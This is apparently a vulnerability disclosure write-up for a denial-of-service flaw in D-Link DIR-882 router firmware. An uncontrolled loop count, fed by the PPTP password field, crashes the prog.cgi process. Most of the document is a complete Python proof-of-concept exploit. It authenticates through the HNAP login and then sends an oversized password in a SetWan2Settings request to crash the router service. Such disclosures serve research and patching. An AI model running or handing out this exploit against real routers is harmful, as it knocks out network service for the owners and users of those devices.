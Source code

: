 # Dlink DIR-882 DOS vulnerability
## Overview
- Manufacturer's website information：https://support.dlink.com/index.aspx 
- Firmware download address ：https://support.dlink.com/ProductInfo.aspx?m=DIR-882-US

## Vulnerability information
There is an DOS vulnerability in Dlink DIR-882_A1_FW1.30B06fix03, which can cause prog.cgi to crash.

## Affected version
![](pic/version.png "")
Figure shows the latest firmware ：A1_FW1.30B06fix03 of the router
## Vulnerability details
The firmware version can be found is 1.30 on the web.

![](pic/web.png "")

In prog.cgi,We can find the details in the code of setting PPTP function in sub_46A10C,the program passes the contents obtained by the /SetWan2Settings/Password parameter to V39.

![](pic/code1.png "")

The V39 parameter is called by the function decrypt_aes (). In the decrypt_aes () function, it is passed to the sub_427184 ().

![](pic/code2.png "")

In the function sub_427184 (), the length of the passed-in parameter is called as the number of cycles in two for loops.

![](pic/code3.png "")

Therefore, the number of cycles is controllable, and if the number of cycles is long enough, it will lead to dos.
## Vulnerability exploitation condition
Need to get cookie after logging in to execute the attack.

## Recurring vulnerabilities and POC
In order to reproduce the vulnerability, the following steps can be followed:
1. Connect physical devices
2. Attack with the following POC attacks

Poc is as follows:
```python
import math
import re
import time
from hashlib import md5

import requests

IP = '192.168.0.1'
USERNAME = 'Admin'
PASSWORD = 'dir882$$'
REPEAT_TIMES = 1

trans_5C = bytes((x ^ 0x5c) for x in range(256))
trans_36 = bytes((x ^ 0x36) for x in range(256))
blocksize = md5().block_size

def hmac_md5(key, msg):
    key, msg = key.encode(), msg.encode()
    if len(key) > blocksize:
        key = md5(key).digest()
    key += b'\x00' * (blocksize - len(key))  # padding
    o_key_pad = key.translate(trans_5C)
    i_key_pad = key.translate(trans_36)
    return md5(o_key_pad + md5(i_key_pad + msg).digest())


def hnap_auth(soap_action, private_key):
    b = math.floor(int(time.time())) % 2000000000
    b = str(b)[:-2]
    h = hmac_md5(private_key, b + '"http://purenetworks.com/HNAP1/' +
                 soap_action + '"').hexdigest().upper()
    return h + " " + b


for i in range(REPEAT_TIMES):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.119 Safari/537.36',
        'Content-Type': 'text/xml; charset=UTF-8',
        'X-Requested-With': 'XMLHttpRequest',
        'SOAPAction': '"http://purenetworks.com/HNAP1/Login"'
    }

    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>request</Action><Username>{USERNAME}</Username><LoginPassword></LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}', data=payload, headers=headers)

    challenge = re.search(r'<Challenge>(.*?)</Challenge>', r.text).group(1)
    cookie = re.search(r'<Cookie>(.*?)</Cookie>', r.text).group(1)
    publick_key = re.search(r'<PublicKey>(.*?)</PublicKey>', r.text).group(1)

    private_key = hmac_md5(publick_key + PASSWORD,
                           challenge).hexdigest().upper()
    password = hmac_md5(private_key, challenge).hexdigest().upper()

    headers['HNAP_AUTH'] = hnap_auth("Login", private_key)
    headers['Cookie'] = f'uid={cookie}'
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><Login xmlns="http://purenetworks.com/HNAP1/"><Action>login</Action><Username>{USERNAME}</Username><LoginPassword>{password}</LoginPassword><Captcha></Captcha></Login></soap:Body></soap:Envelope>'

    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    if '<LoginResult>success</LoginResult>' in r.text:
        print('[*] Login successfully!')
    else:
        print('[!] Login failed!')
    data_password = 'A' * 230
    payload = f'''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan2Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DynamicPPTP</Type>
			<Username>test</Username>
			<Password>{data_password}</Password>
			<MaxIdleTime>0</MaxIdleTime>
			<HostName/>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName></ServiceName>
			<AutoReconnect>true</AutoReconnect>
			<IPAddress></IPAddress>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1492</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan2Settings>
	</soap:Body>
</soap:Envelope>'''
    headers['SOAPAction'] = '"http://purenetworks.com/HNAP1/SetWan2Settings"'
    headers['HNAP_AUTH'] = hnap_auth("SetWan2Settings", private_key)
    r = requests.post(f'http://{IP}/HNAP1/', data=payload, headers=headers)
    print(r.text)
```
After running poc, the process number of prog.cgi has changed, indicating that prog.cgi has been restarted, and normal data packets will not cause the process change.
Before running:

![](pic/a1.png "")

After running:

![](pic/a2.png "")

## CVE-ID
unsigned
